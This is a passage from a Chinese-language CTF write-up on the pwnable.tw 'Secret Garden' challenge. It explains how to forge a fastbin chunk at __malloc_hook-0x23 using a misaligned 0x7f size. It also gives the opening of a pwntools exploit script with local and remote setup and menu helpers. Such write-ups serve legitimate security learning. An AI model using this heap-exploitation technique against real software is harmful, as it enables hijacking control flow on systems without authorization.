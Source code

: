 ```python
#debug(0x107b,"x /200bx "+hex(gdb_libc_base+libc.symbols['__free_hook']-0x50))
debug(0x107b,"x /200bx "+hex(gdb_libc_base+libc.symbols['__malloc_hook']-0x50))
```

__free\_hook指针周围都是0，但是\_\_malloc\_hook周围有值可以错位构造出一个合法的size：0x000000000000007f

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-secret-garden-1.png)

因为 0x7f 在计算 fastbin index 时，是属于 index 5 的，即 chunk 大小为 0x70 的。

```c
##define fastbin_index(sz)                                                      \
    ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```

故我们可以构造一个位于__malloc_hook-0x23处，fastbin索引为5的size为0x70的fake chunk，而其大小又包含了 0x10 的 chunk_header，因此我们选择分配 0x60 的 fastbin，将其加入链表。

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

#context(arch='amd64',os='linux',log_level='debug')
#context.log_level = 'debug'

debug = 1
if debug:
	elf = ELF("./secretgarden")
	libc = ELF("./libc_64.so.6")
	io = process(elf.path,env={"LD_PRELOAD" : libc.path})
else:
	elf = ELF("./secretgarden")
	libc = ELF("./libc_64.so.6")
	io = remote("chall.pwnable.tw",10203)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\0'))
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}".format(io.pid)).readlines()[1][4:16], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc".format(io.pid)).readlines()[0][4:16], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
```